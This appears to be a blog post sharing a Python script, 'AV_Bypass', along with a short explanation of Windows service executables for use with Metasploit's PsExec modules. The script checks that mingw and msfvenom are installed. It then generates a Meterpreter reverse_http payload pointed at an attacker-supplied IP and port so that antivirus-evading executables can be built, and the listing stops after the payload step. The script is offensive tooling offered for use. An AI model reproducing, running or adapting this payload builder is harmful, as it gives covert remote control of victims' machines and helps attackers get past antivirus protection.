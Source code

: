 Just want to make another note that there is a `difference` between a regular Windows Exectuable and a Windows Service Executable.

- **Windows EXE** is a Windows executable.
- **Windows Service EXE** is a Windows executable that responds to Service Control Manager commands. You may use this executable to create a Windows service with sc or as a custom executable with the Metasploit® Framework's PsExec modules.

---

# Breakdown:
I have attached the script below as a quick reference, I would== highly suggest getting it directly from my github page for the most updated version==. I do have a list of awesome bypass methods I would like to add in the future.

The script is located at my github: [https://github.com/Techryptic/AV_Bypass](https://github.com/Techryptic/AV_Bypass)

```python
#!/usr/bin/env python
# coding: latin-1
import re, os, sys, socket, struct, commands, subprocess, functools, random, string

#---------------#---------#
W  = '\033[0m'  # White   #
G  = '\033[32m' # Green   #
Y  = '\033[33m' # Yellow  #
R  = '\033[91m' # RED     #
#---------------#---------#
ExecutableName = "write32.exe"

if len(sys.argv) is not 3:
    print "Usage: {0} IP PORT".format(sys.argv[0])
    print "IP & PORT can either be for CoboltStike or Meterpreter"
    print "Default Exectuable Name: "+ExecutableName
    exit()
ip = sys.argv[1]
port = sys.argv[2]

header = """
 █████╗ ██╗   ██╗       ██████╗ ██╗   ██╗██████╗  █████╗ ███████╗███████╗
██╔══██╗██║   ██║       ██╔══██╗╚██╗ ██╔╝██╔══██╗██╔══██╗██╔════╝██╔════╝
███████║██║   ██║       ██████╔╝ ╚████╔╝ ██████╔╝███████║███████╗███████╗
██╔══██║╚██╗ ██╔╝       ██╔══██╗  ╚██╔╝  ██╔═══╝ ██╔══██║╚════██║╚════██║
██║  ██║ ╚████╔╝███████╗██████╔╝   ██║   ██║     ██║  ██║███████║███████║
╚═╝  ╚═╝  ╚═══╝ ╚══════╝╚═════╝    ╚═╝   ╚═╝     ╚═╝  ╚═╝╚══════╝╚══════╝"""
print(header.decode('utf-8'))

try:
    is_present=subprocess.check_output(['which','i686-w64-mingw32-gcc'],stderr=subprocess.STDOUT)
except subprocess.CalledProcessError:
    print(R+"i686-w64-mingw32-gcc"+" is not installed\n"+W)
    exit()
try:
    is_present=subprocess.check_output(['which','msfvenom'],stderr=subprocess.STDOUT)
except subprocess.CalledProcessError:
    print(R+"msfvenom"+" is not installed\n"+W)
    exit()

print "█ "+G+"Setting up MSFVENOM"+W+"..."+W

msf = commands.getstatusoutput('msfvenom -p windows/meterpreter/reverse_http LHOST='+ip+' LPORT='+port+' -f c > payload.c')
print "█ "+G+"Payload Generated"+W+"..."+W
```